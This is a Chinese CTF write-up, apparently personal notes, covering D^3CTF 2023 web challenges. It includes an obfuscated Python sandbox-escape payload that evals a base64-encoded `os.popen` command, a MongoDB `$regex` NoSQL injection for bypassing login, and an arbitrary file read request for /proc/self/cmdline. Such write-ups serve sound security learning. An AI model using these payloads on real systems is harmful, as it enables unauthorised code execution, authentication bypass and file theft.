




# D^3CTF 2023

> [题目地址](https://race.d3ctf.cn/contest/1)

## Web

### Escape Plan

#### 题目描述

#### 题目分析

一个 python 的命令执行题目，但是有黑名单过滤。

> 具体解法应是参考这篇文章：[Python 沙箱逃逸的通解探索之路 | CN-SEC 中文网](https://cn-sec.com/archives/1322842.html)

黑名单具体如下，最后是通过 `eval()` 函数进行命令执行的：



```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

#### 题目复现

发现我拉取镜像失败，不能启动 Docker。

尝试更换一下 Docker 的镜像源也没用，真的纯搞心态。┭┮﹏┭┮ 黑化了。

一直都是这个问题：



最后我直接单独 pull 这个镜像，终于进入了构建的下一步：

```bash
docker pull python:3.8-alpine
```


> md 还要下好多东西。


### d3 cloud


### d3 node

- [源码链接](https://github.com/nerowander/d3ctf2023-web-d3node)

#### 环境搭建

```bash
git clone https://github.com/nerowander/d3ctf2023-web-d3node.git
sudo docker-compose up -d
```

等待一会就可以了。

```
curl 127.0.0.1:10000
```


#### 题目分析

登录页面 F12 发现提示 1。看起来存在 nosql 注入，我们需要绕过 waf 登录一下。




不是很理解这一步为什么能想到 nosql，我只能看出来接收 username 和 password 参数。

后面我用搜索引擎查了以下相关源码关键字：

```sql
Userinfo.findOne
```


这应该是 MongoDB 数据库的查询语句，而 MongoDB 是 nosql 型也就是非关系型数据库。看到这里我懂了，看来还是对数据库的了解不够，不能够立即辨认出提示图片给的源码是 MongoDB 的查询语句。




很好，现在在网上寻找有关 MongoDB 注入的文章进行学习吧。

建议参看先知社区[这篇](https://xz.aliyun.com/t/9908)，完成从零到一。

```sql
{"username": {"$regex": "admin"}, "password": {"$regex": "" }}
```

登录进去发现提示 2，告诉我们存在任意文件读取漏洞。

```http
/dashboardIndex/ShowExampleFile?filename=/proc/self/cmdline
```

